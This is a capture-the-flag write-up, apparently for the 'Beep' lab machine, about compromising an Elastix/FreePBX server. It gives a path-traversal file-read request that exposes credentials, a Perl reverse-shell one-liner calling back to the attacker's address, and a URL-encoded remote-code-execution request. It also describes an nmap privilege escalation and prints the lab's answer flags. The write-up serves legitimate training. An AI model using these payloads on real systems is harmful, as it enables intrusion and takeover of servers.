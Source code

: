 ### Beep

**OS:** Linux<br>
**Difficulty:** Easy<br>

**Tags:** Web Application, Enterprise Network, Niche Technologies, Protocols, Telecom, Local File Inclusion, Remote Code Execution, PHP, Python

---

#### Exploiting Local File Inclusion

Running an [initial port scan](port_scan.nmap), we found that the target is an Elastix Server. The server brings together services for IP PBX (Asterisk), email (SMTP, IMAP, POP3), and faxing (Hylafax), using a web interface for management and configuration:

![Web Portal](web_portal.png)

Elastix has a [local file inclusion vulnerability](https://www.exploit-db.com/exploits/37637) which can be exploited to read sensitive files on the target system. We exploited this vulnerability to read the Asterisk Management Portal `ammportal.conf` configuration file:

```bash
$ wget 'https://{TARGET IP}/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action' -O amportal.conf --no-check-certificate
```

The [configuration file](amportal.conf) contains hardcoded FreePBX credentials. We try reusing these credentials `admin:jEhdIekWmdjE` and gain access to the Elastix web interface dashboard:

![Dashboard](dashboard.png)

---
 
#### Exploiting Remote Code Execution

FreePBX has a [remote code execution vulnerability](https://www.exploit-db.com/exploits/18650) which we can exploit to get a reverse shell if we have a valid PBX extension. We retrieve a PBX extension (`233`) by visiting the PBX tab in the Elastix web interface dashboard:

![PBX Extension](pbx_extension.png)

Our payload will make the target system connect back to us, giving us a reverse shell:

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"{OUR IP}:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

Next, we open a netcat listener on our computer and send the URL-encoded payload to trigger the reverse shell:

```bash
$ wget --no-check-certificate 'https://{TARGET IP}/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{OUR IP}%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
'  -O /dev/null
```

Now we have a reverse shell in our netcat listener, granting us the ability to execute commands on the target system remotely:

![Reverse Shell](reverse_shell.png)

---

#### Privilege Escalation

We open an nmap interactive shell, and use the interactive shell to open a bash shell. Lastly we use the command `/usr/bin/script -qc /bin/bash /dev/null` to stabilize the shell:

![Root](root.png)
---

#### User Flag
> 164b1e17d382522878d9c0984cfa1612

#### Root Flag
> 2b7b3f193a0bcb9810bc9a463dc4f4fd


![Flags](flags.png)

---